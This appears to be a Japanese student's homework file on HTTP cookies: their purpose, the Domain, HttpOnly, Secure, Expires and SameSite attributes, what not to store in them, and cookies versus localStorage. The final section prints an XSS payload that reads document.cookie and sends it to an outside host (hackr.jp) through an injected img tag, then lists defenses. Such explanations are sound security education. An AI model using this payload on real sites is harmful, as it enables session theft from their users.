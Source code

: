 # 課題4

## 問題１

HTTPはステートレス・プロトコルであるため、以前やり取りしたリクエストやレスポンスの状態を管理しない。つまり、以前の状態を踏まえた上でのリクエストを処理することができない。たとえば、認証が必要なWebページで状態管理が無いとすると、認証済みという状態を忘れてしまうため、新たなページに移動するたびに再度ログイン情報を送るか、リクエストごとにパラメーターか何かをつけてログイン状態を管理しなければならなくなる。
ステートレス・プロトコルの特徴は残したまま、こういった問題を解決するためにCookieが取り入れられた。Cookieは、リクエストとレスポンスにCookieという情報を載せることによって、クライアントの状態を把握するための仕組み。
Cookieは、サーバーからのレスポンスで送られたSet-Cookieというヘッダーフィールドによって、Cookieをクライアントに保持してもらうように指示を出す。次に、クライアントが同じサーバーにリクエストを出す際には、クライアントが自動的にCookieに値を入れて送信する。
サーバーはクライアントが送ってきたCookieを見ることで、どのクライアントからのアクセスなのかをチェックし、サーバー上の記録を確かめることで、以前の状態を知ることができる。

## 問題2

送信されない。
Domain属性が指定されていない場合、同一オリジンでのみ利用可能なため。

## 問題3

送信される。
同一ホストであれば、異なるポートにも送信される。

```
Similarly, cookies for a given host are shared across all the ports on that host
```

[参考](https://datatracker.ietf.org/doc/html/rfc6265)

## 問題4

送信されない。
Domain属性が指定されていない場合、同一オリジンでのみ利用可能となり、サブドメインは除外される。

## 問題5

送信される。
Domain属性が指定されている場合、サブドメインにも送出される。

## 問題6

HttpOnly属性を指定することで可能になる。
HttpOnly属性は、Cookieの取得をJavaScript経由で行うことができないようにするCookieの拡張機能。
HttpOnly属性が指定されたCookieはJavaScriptの「Document.cookie」APIにアクセスできなくなる。

## 問題7

Secure属性を指定することで可能になる。
Secure属性は、WebページがHTTPSで開かれているときのみに、Cookieが送出されるよう制限する。

## 問題8

Expires属性は、ブラウザがCookieを送出することができる有効期限を指定することができる。

## 問題9

SameSite属性は、ブラウザがクロスサイトリクエストとともにCookieが送信されることを防ぐ。
主な目的は、クロスオリジンの情報漏洩リスクを軽減することで、CSRF の対策にもなる。
取ることができる値は、Strict, Lax, Noneの3つ。
Strictの値を設定すると、すべてのクロスサイトの閲覧コンテキストにおいて、ブラウザからターゲットサイトにクッキーが送信されないようになる。
Laxの値を設定すると、外部のウェブサイトで通常のリンクからアクセスしたときはCookieを許可し、CSRF が発生しやすいリクエストメソッド (POST など) ではCookieをブロックする。
Noneの値を設定すると、ブラウザはすべての閲覧コンテキストでクッキーを送信する。

[参考](https://owasp.org/www-community/SameSite)

## クッキーに格納しない方が良い情報の例を、3つ以上挙げてください

- 4096バイトを超える容量の大きい情報。
- サーバーに送信する必要が無い情報。
- 暗号化されていないパスワードなどの秘匿性の高い情報

## クッキーはローカルストレージと混同されることが多々あります。クッキーを使うべきタイミングと、ローカルストレージを使うべきタイミングを挙げてみてください

クッキーを使うべきタイミング
ログイン情報などのサーバーに送信する必要がある情報や、秘匿性の高い重要な情報を保持するとき

ローカルストレージを使うべきタイミング
サイトの表示設定などの、サーバーに送信する必要がない情報。

## stack overflowのようなWEB掲示板サービスを開発しているとしましょう。XSS（クロスサイトスクリプティング）により、他ユーザのクッキー情報が抜き出される仕組みを説明してください。どのような対策が考えられますか？

下記のようなスクリプトを仕込むことで、ユーザーのCookieをXSSによって奪うことができる。

```
<script src=http://hackr.jp/xss.js></scriot>
```

このスクリプトが指し示すhttp://hackr.jp/xss.jsは下記のJavaScriptが記述されている

```
const content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">")
```

このJavaScriptがXSSの脆弱性のあるWebアプリケーション上で実行されると、そのWebアプリケーションのドメインのCookie情報にアクセスされる。
そして、その情報が http://hackr.jp/ に送信され、ユーザーのCookie情報を奪うことができる。

対策としてはCookieにHttpOnly属性を設定し、JavaScriptで「document.cookie」にアクセスできなくする方法や、
ユーザーの入出力が行われる箇所でエスケープ処理を行うなどの方法がある。
